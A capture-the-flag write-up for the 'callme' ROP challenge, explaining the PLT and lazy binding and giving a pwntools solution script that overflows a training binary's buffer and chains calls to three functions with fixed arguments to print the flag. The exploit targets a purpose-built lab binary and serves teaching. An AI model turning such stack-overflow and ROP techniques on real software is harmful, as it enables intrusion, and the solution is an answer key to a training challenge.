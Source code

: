 # Call me

### 📄 Description 

### Failure is not an option

How do you make consecutive calls to a function from your ROP chain that won't crash afterwards? If you keep using the call instructions already present in the binary your chains will eventually fail. Consider why this might be the case.

### Procedure Linkage

The Procedure Linkage Table (PLT) is used to resolve function addresses in imported libraries at runtime, it's worth reading up about it and how lazy binding works. Even better, go ahead and step through the lazy linking process in a debugger, it's important you understand what resides at the addresses reported to you by commands like `rabin2 -i` and  `rabin2 -R`

### Correct order

I'll tell you the following:
You must call the `callme_one()` , `callme_two()` and `callme_three()`  functions in that order, each with the arguments 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d e.g.  callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)  to print the flag.

The solution here is simple enough, use your knowledge about what resides in the PLT to call the `callme_`  functions in the above order and with the correct arguments.

Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order.

### ⚙ How to run it
```bash
./callme
```


<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
We just need to call the three functions with the correct arguments and we get back the flag. Ez pz.

```python
from pwn import *

context.binary = "./callme"
r = ROP(context.binary)
p = process()

r.callme_one(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_two(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)
r.callme_three(0xDEADBEEFDEADBEEF, 0xCAFEBABECAFEBABE, 0xD00DF00DD00DF00D)

p.send(b"A" * 8 * 5 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

</details>